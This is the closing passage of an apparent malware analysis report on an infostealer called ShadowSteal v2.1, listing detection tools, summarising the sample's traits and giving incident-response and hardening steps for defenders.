### Detection Tools

| Tool | What It Does |
|------|---|
| **YARA** | Pattern-based malware detection |
| **VirusTotal** | Multi-engine antivirus scanning |
| **Wireshark** | Network traffic capture and analysis |

---

## 🎬 Conclusion

**ShadowSteal v2.1** represents a concerning trend in malware:

✅ **Professional code quality** — Not a script kiddie script  
✅ **Practical evasion** — Designed to bypass real-world defenses  
✅ **Clear intent** — Focused reconnaissance malware  
✅ **Hidden in plain sight** — Unpacked but still effective

If you find this malware on your network:

1. **🚨 ISOLATE** the affected machine immediately
2. **🔍 INVESTIGATE** for lateral movement
3. **🛡️ REMEDIATE** using the YARA rule and IOCs
4. **📋 MONITOR** for other infected systems
5. **🔐 HARDEN** your environment against variant attacks

For security teams: Deploy the YARA rule, add the IOCs to your threat intelligence platform, and monitor for HTTP requests with those custom headers.

For defenders: Keep systems patched, monitor for unusual process creation and registry queries, and maintain network segmentation.

For researchers: This sample is a goldmine for understanding modern infostealer design patterns.

---

**Happy hunting! 🎯**

---